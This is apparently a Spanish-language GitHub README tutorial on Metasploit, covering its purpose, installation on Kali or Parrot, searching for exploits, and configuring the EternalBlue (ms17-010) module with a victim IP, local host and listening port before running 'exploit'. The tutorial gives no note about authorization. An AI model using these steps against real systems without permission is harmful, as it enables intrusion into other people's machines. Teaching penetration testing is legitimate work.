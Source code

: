 ![45d05b2d7bd477a3cac9786ef8cf6e29](https://user-images.githubusercontent.com/103068924/168299911-cf99878d-756d-4497-91d1-49c0571d278b.png)

# ¿Qué es Metasploit?

Metasploit es un proyecto de código abierto para la seguridad informática, que proporciona información acerca de vulnerabilidades de seguridad y ayuda en 
tests de penetración `Pentesting` y el desarrollo de firmas para sistemas de detección de intrusos.

Su subproyecto más conocido es el `Metasploit Framework`, una herramienta para desarrollar y ejecutar exploits contra una máquina remota.

Inicialmente, fue creado utilizando el lenguaje de programación de scripting Perl aunque actualmente el Metasploit Framework ha sido escrito de nuevo 
completamente en el lenguaje Ruby.

# ¿Como funciona Metasploit?

Los pasos básicos para la explotación de un sistema que utiliza el Sistema incluyen:

1. La selección y configuración de un código el cual se va a explotar. El cual entra al sistema objetivo, mediante el aprovechamiento de
bugs. Existen cerca de 900 exploits incluidos para Windows, Unix / Linux y Mac OS X.   

2. Opción para comprobar si el sistema destino es susceptible a los bugs elegidos.  

3. La técnica para codificar el sistema de prevención de intrusiones (IPS) e incluir la carga útil codificada.   

4. Visualización a la hora de ejecutar el exploit.

Metasploit se ejecuta en Unix (incluyendo Linux y Mac OS X) y en Windows. El Sistema Metasploit se puede extender y es capaz utilizar complementos 
en varios idiomas.

Para elegir un exploit y la carga útil, se necesita un poco de información sobre el sistema objetivo, como la versión del sistema operativo y los
servicios de red instalados. 

Esta información puede ser obtenida con el escaneo de puertos y "OS fingerprinting", puedes obtener esta información 
con herramientas como Nmap, NeXpose o Nessus, estos programas, pueden detectar vulnerabilidades del sistema de destino. Metasploit puede importar
los datos de la exploración de vulnerabilidades y comparar las vulnerabilidades identificadas.

# Instalación:

Para poder instalar Metasploit en sistemas basados en Debian como Parrot o Kali Linux, primero actualizamos el sistema:

    sudo apt-get update
    
Y luego procedemos con la instalación:

    sudo apt-get install metasploit-framework
     
Una vez instalado podemos ejecutarlo mediante el comando:

    msfconsole
    
![Captura de pantalla -2022-05-13 02-39-06](https://user-images.githubusercontent.com/103068924/168301223-b00a6c4b-9582-42c4-8adf-85b44e3ebfcc.png)
 
# Búsqueda de Exploits:
 
Metasploit cuenta con una gran recopilación de exploits, para poder buscar el adecuado filtrando por la vulnerabilidad que queremos explotar 
simplemente usamos el comando `search` seguido del exploit, la vulnerabilidad o la versión del sistema que vamos a vulnerar. Esto debemos
ejecutarlo una vez hemos ingresado en `msfconsole`:

    search [Información que identifique la vulnerabilidad.]
    
![Captura de pantalla -2022-05-13 13-05-57](https://user-images.githubusercontent.com/103068924/168302351-3f912051-c282-44f8-a783-8ea373f84284.png)

## Conceptos básicos de configuración:

Una vez nos muestra las listas (en este ejemplo hemos buscado la vulnerabilidad ms17-010 conocida como EthernalBlue) de los exploits que contienen
la iformación proporcionada. En mi caso, como he especificado la vulnerabilidad `ms17-'010` los resultados son muy concretos.

Una vez tenemos claro el exploit que deseamos emplear, podemos seleccionarlo mediante `use` seguido o del número de posición en la lista, el directorio o el nombre del mismo exploit.

    use 0
    
![Captura de pantalla -2022-05-13 13-06-25](https://user-images.githubusercontent.com/103068924/168303141-286e5f50-4e31-44b6-93a1-497f1e553a3f.png)

Tras seleccionar el exploit ya solo faltaría configurarlo. Para ver la configuración predeterminada podemos usar el comando `options`.

![Captura de pantalla -2022-05-13 13-26-24](https://user-images.githubusercontent.com/103068924/168303659-f3e2dbc6-913a-48ae-9f0a-e01faf0cd725.png)

Para configurar los parametros simplemente utilizamos `set` seguido del parametro a cambiar. Debemos especificar el  `RHOSTS` donde indicamos la Ip
de la víctima, el `LHOST` donde indicaremos nuestra Ip pública (En caso de emplear una VPN debemos poner la Ip de misma.) y finalmente, indicamos 
el `LPORT` que es el puerto por el cual nos pondremos en escucha.

    set RHOSTS [Ip Víctima]

    set LHOST [Ip Local]
    
    set LPORT [Puerto de Escucha]
    
![Captura de pantalla -2022-05-13 13-25-31](https://user-images.githubusercontent.com/103068924/168304755-70ce4ee5-3ce0-440f-a1ab-8f68ad035dff.png)

Finalmente, una vez lo tenemos todo configurado, ejecutamos la herramienta deseada mediante el comando `exploit`:

    exploit
    
    
---
---
  
    
<html lang="en">
<head>
  
</head>
<body>

<script src="https://utteranc.es/client.js"
    repo="F1r0x/gestion-comentarios"
    issue-term="pathname"
    theme="github-light"
    crossorigin="anonymous"
    async>
</script>
          
    
  </body>
</html>
  
  
---
---


